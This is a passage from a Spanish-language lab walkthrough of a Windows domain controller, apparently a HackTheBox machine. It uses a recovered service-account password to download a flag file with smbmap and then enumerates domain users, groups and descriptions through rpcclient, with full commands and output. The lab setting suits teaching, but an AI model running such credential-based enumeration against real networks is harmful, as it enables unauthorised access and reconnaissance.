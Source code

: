 La descargamos y le cambiamos el nombre al archivo:
```bash
smbmap -H 10.10.10.100 -u 'SVC_TGS' -p 'GPPstillStandingStrong2k18' --download Users/SVC_TGS/Desktop/user.txt
[+] Starting download: Users\SVC_TGS\Desktop\user.txt (34 bytes)
[+] File output to: **/**/**/content/10.10.10.100-Users_SVC_TGS_Desktop_user.txt

mv 10.10.10.100-Users_SVC_TGS_Desktop_user.txt user.txt
```
Ya tenemos la flag del usuario, pero podemos hacer más cosillas como tratar de entrar en el **servicio MSRPC** con el usuario y contraseña, esto lo realizamos con la herramienta **rpcclient**.

Intentémoslo:
```batch
rpcclient -U 'SVC_TGS%GPPstillStandingStrong2k18' 10.10.10.100                                                                
rpcclient $>
```

Aquí igual podemos enumerar algunas cosillas, por ejemplo:

* Enumerar los usuarios:
```batch
rpcclient $> enumdomusers
user:[Administrator] rid:[0x1f4]
user:[Guest] rid:[0x1f5]
user:[krbtgt] rid:[0x1f6]
user:[SVC_TGS] rid:[0x44f]
```

* Enumerar los grupos del dominio:
```batch
enumdomgroups
group:[Enterprise Read-only Domain Controllers] rid:[0x1f2]
group:[Domain Admins] rid:[0x200]
group:[Domain Users] rid:[0x201]
group:[Domain Guests] rid:[0x202]
group:[Domain Computers] rid:[0x203]
group:[Domain Controllers] rid:[0x204]
group:[Schema Admins] rid:[0x206]
group:[Enterprise Admins] rid:[0x207]
group:[Group Policy Creator Owners] rid:[0x208]
group:[Read-only Domain Controllers] rid:[0x209]
group:[DnsUpdateProxy] rid:[0x44e]
```

* Enumerar descripciones de usuarios:
```batch
rpcclient $> querydispinfo
index: 0xdea RID: 0x1f4 acb: 0x00000210 Account: Administrator  Name: (null)    Desc: Built-in account for administering the computer/domain
index: 0xdeb RID: 0x1f5 acb: 0x00000215 Account: Guest  Name: (null)    Desc: Built-in account for guest access to the computer/domain
index: 0xe19 RID: 0x1f6 acb: 0x00020011 Account: krbtgt Name: (null)    Desc: Key Distribution Center Service Account
index: 0xeb2 RID: 0x44f acb: 0x00000210 Account: SVC_TGS        Name: SVC_TGS   Desc: (null)
```
